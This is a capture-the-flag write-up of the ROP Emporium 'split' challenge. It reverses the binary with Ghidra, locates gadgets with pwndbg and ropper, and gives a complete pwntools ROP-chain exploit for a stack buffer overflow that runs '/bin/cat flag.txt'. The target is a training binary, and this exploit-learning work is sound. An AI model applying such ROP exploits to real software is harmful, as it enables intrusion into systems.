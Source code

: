 # Split

## Reversing with Ghidra
### Main
```c
int main() {
  puts("split by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
### Pwnme
```c
void pwnme() {
  char input[32];
  
  memset(input, 0, 0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0, input, 0x60);
  puts("Thank you!");
  return;
}
```
### Useful Function
```c
void usefulFunction() {
  system("/bin/ls");
  return;
}
```

## The vuln
We can exploit the `buffer overflow` with a `ROPChain` that use a call to `system`, the string `/bin/cat flag.txt` (which is inside the binary) and the gadget `pop rdi; ret`, found with `ropper`.

## The exploit
### Find the address of the string "/bin/cat flag.txt"
```
pwndbg> search "/bin/cat flag.txt"
split           0x601060 '/bin/cat flag.txt'
```
### Find the address of the call to "system"
```
pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:     push   rbp
   0x0000000000400743 <+1>:     mov    rbp,rsp
   0x0000000000400746 <+4>:     mov    edi,0x40084a
   0x000000000040074b <+9>:     call   0x400560 <system@plt>
   0x0000000000400750 <+14>:    nop
   0x0000000000400751 <+15>:    pop    rbp
   0x0000000000400752 <+16>:    ret    
End of assembler dump.
```
### Find the gadget "pop rdi; ret"
```
(ropper)> file split
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
(split/ELF/x86_64)> search pop rdi
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret; 

(split/ELF/x86_64)>
```
### Putting all together
```python
from pwn import *

#
# Context
#

e = context.binary = ELF('split')

#
# ROP
#

# Use pwntools to find gadgets and strings
BINCAT = p64(next(e.search(b'/bin/cat flag.txt'))) # "/bin/cat flag.txt"
SYSTEM = p64(e.symbols["usefulFunction"] + 9) # call system; <junk>
POPRDI = p64(next(e.search(asm('pop rdi; ret'))))

#
# Offset
#

offset = 0

io = process(e.path)

io.sendlineafter(b'> ', cyclic(0x60))
io.wait()

core = io.corefile

io.close()

offset = cyclic_find(core.read(core.rsp, 4))
info(f'Offset: {offset}')

#
# Exploit
#

payload  = b''
payload += b'A' * offset
payload += POPRDI
payload += BINCAT
payload += SYSTEM

with open('payload', 'wb') as fout:
    fout.write(payload)

io = process(e.path)

io.sendlineafter(b'> ', payload)
info(io.recvuntil(b'}').decode())
io.close()
```